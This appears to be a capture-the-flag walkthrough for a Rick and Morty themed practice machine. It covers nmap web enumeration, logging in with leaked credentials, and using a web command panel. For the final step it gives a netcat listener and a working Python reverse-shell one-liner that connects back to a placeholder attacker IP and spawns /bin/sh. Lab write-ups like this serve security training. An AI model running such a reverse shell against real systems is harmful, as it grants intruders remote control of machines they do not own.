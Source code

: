# Solutions

## What is the first ingredient Rick needs?

we enter the IP to the browser and a page is presented

in the HTTP code there is a comment about ricks username, so we jot that down 

since we dont know any of the directories for the page we decide to http-enum to get information about where we can navigate the page

using nmap command: `nmap -sV --script=http-enum <IP>`

we get a **robots.txt** directory

we navigate to `<IP>/robots.txt` where a string is presented, maybe a password?

nmap also returns a **login.php** page, we enter the information given and we are logged on

the web applications has a **Command Pannel** for the user, so we can use unix commands

we use `ls` and a file **Sup3rS3cretPickl3Ingred.txt** is presented

we head to `<IP>/Sup3rS3cretPickl3Ingred.txt` and get the first ingredient


## Whats the second ingredient Rick needs?

in order to retrieve everything in the directory and get an overview we want to use grep

we use command: `grep -r .` 

we find the **rick** folder within the **home** folder, where the file **second ingredents** is found

## Whats the final ingredient Rick needs?

all commands are not allowed in the web interface, so we cant get sudo access

since nmap reveals that the website has port 22 open we want to try to get a reverse shell going since we have access to a Command pannel

the outgoing traffic from the machine has less restrictions than ingoing traffic, this is why reverse shells often times work

on our own attacker machine we setup a port listener with netcat using command: `nc -nlvp 9999`

victim machine command: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attackerIP>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' -`

we run the `su` command and we get root access

enter `cd` to navigate to root folder and there we find **3rd.txt** , the final ingredient!

![rick-kiss-rick-and-morty-kiss](https://user-images.githubusercontent.com/74051842/144588709-583ddd83-4adc-49a4-9731-155c7523e842.gif)



